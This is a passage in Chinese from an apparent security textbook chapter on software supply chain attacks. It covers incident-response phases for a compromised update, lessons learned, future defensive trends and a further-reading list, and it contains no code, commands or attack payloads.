1. **样本获取与固定**：从隔离系统中提取可疑更新文件，计算哈希值，制作多个备份
2. **恶意代码分析**：使用静态分析（PE查看器、字符串提取、YARA扫描）和动态分析（沙箱运行、行为监控）
3. **IoC提取**：提取C2域名、IP地址、文件路径、注册表项、互斥体名称等指标
4. **影响范围评估**：确定有多少系统和哪些数据可能被访问或窃取

#### 第三阶段：清除与恢复（24-72小时）

1. **清除后门**：使用分析结果制定清除方案（删除恶意文件、恢复系统配置、撤销凭据）
2. **系统重建**：从可信的备份或干净的镜像恢复系统，而非"在原系统上修复"
3. **凭据轮换**：对所有受影响系统上的账号密码、API密钥和证书进行批量轮换
4. **供应商通知**：通知软件供应商——他们可能还未发现自身的供应链问题

#### 第四阶段：复盘与改进（1-4周）

1. **根因分析**：攻击的最终入口点在哪里？防御体系为什么没有阻止？
2. **流程改进**：基于攻击特征更新检测规则、完善响应流程
3. **技术加固**：根据成熟度模型，制定供应链安全升级计划（SBOM、可重现构建、零信任更新）
4. **威胁情报共享**：将提取的IoC上报到行业情报共享平台（MISP、FS-ISAC、CNCERT等）

### 24.5.10 总结与展望

供应链攻击代表了网络安全的范式转移——传统"加固边界、信任内部"的安全模型在供应链攻击面前完全失效。攻击者不再直接攻破你的防线，而是攻破你信任的"上游供应方"，然后通过你的信任机制长驱直入。

**三个核心认识**：

1. **信任不再是安全**：代码签名、HTTPS、官方渠道——这些传统信任机制在供应链攻击中均无法保证安全。验证需要从"单一信任源"转向"多方交叉验证"。

2. **检测需要多维度**：单一的哈希验证或签名检查远远不够。必须建立文件特征、行为模式、网络流量、异常时序等多维度的综合检测体系。

3. **防御需要上下游协同**：供应链安全不是单打独斗——软件供应商需要实施可重现构建和签名透明度，客户需要建立SBOM和零信任更新机制，安全社区需要共享威胁情报。

**未来趋势**：

- **AI驱动的供应链攻击检测**：利用机器学习分析软件更新行为基线，自动检测微小偏离
- **硬件可信根**：基于TPM/SEV-SNP等硬件安全模块的可信更新验证链
- **联邦式供应链审计**：跨组织的供应链安全数据共享与分析平台
- **供应链攻击保险**：针对供应链攻击的商业保险产品正在出现

---

> **延伸阅读**
> - MITRE ATT&CK: Supply Chain Compromise (T1195)
> - NIST SP 800-161: Cybersecurity Supply Chain Risk Management Practices
> - SolarWinds SUNBURST技术分析报告（FireEye/Mandiant）
> - CycloneDX SBOM标准规范
> - Reproducible Builds项目主页：https://reproducible-builds.org/
